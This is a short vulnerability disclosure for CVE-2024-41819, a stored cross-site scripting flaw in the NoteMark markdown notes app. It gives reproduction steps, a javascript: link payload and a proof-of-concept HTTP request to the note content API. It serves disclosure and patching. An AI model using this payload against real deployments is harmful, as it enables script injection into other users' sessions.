 # CVE-2024-41819

## NoteMark - Stored XSS

NoteMark is a web-based Markdown notes app.&#x20;

A stored cross-site scripting (XSS) vulnerability in Note Mark allows attackers to execute arbitrary scripts via a crafted payload injected into the URL value of a link in the markdown content.

This vulnerability affects version 0.13.0 and below and was fixed in 0.13.1.

***

## Steps to Reproduce

1. Log in to the application.
2. Create a new note or enter a previously created note.
3. Access the note editor functionality from the selected note by clicking on the "Editor" tab.
4. Input the following payload: `[xss-link](javascript:alert(1))`
5. Save the changes
6. Click on the "Rendered" tab to view the rendered markdown version of the note.\
   Click on the previously created link to pop the injected alert.



***

## Proof of Concept

```http
PUT /api/notes/<note-uuid>/content HTTP/1.1
Host: localhost:8000
Accept: */*
Content-Type: text/plain;charset=UTF-8
Content-Length: 34
Sec-Fetch-Site: same-origin
Authorization: Bearer <TOKEN>


[xss-link](javascript:alert(1))
```

## References

* [https://github.com/enchant97/note-mark](https://github.com/enchant97/note-mark)
* [https://nvd.nist.gov/vuln/detail/CVE-2024-41819](https://nvd.nist.gov/vuln/detail/CVE-2024-41819)
* [https://www.exploit-db.com/exploits/52078](https://www.exploit-db.com/exploits/52078)
* [https://github.com/enchant97/note-mark/security/advisories/GHSA-rm48-9mqf-8jc3](https://github.com/enchant97/note-mark/security/advisories/GHSA-rm48-9mqf-8jc3)
* [https://notemark.docs.enchantedcode.co.uk/](https://notemark.docs.enchantedcode.co.uk/)
